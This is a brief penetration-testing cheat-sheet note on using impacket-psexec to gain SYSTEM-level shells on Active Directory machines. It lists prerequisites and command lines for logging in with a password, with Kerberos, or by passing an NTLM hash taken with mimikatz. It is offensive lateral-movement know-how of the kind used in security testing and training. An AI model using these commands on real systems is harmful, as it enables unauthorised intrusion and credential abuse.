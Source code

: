 ```yaml
---
tags:
  - active_directory
---
```

# psexec

Use administrative credentials to authenticate to an Active Directory machine as `nt authority\system`

Requires:

- User logging in to be a member of the `administrators` local group
- `ADMIN$` share must be available (default)
- File and printer sharing must be turned on (default)

## Capabilities

```bash
# Authenticate with credentials
impacket-psexec 'username:password@$IP'
impacket-psexec '$DOMAIN/username:password@$IP'

# Authenticate with kerberos
impacket-psexec $DOMAIN/username@$IP -k -no-pass

# Authenticate with hash
impacket-psexec -hashes :7a38... username@$IP
impacket-psexec -hashes 00000000000000000000000000000000:7a38... username@$IP
```

Note: In the hash example, we fill in the left side of the colon with zeros, and the right is the administrators NTLM hash pulled from `mimikatz`
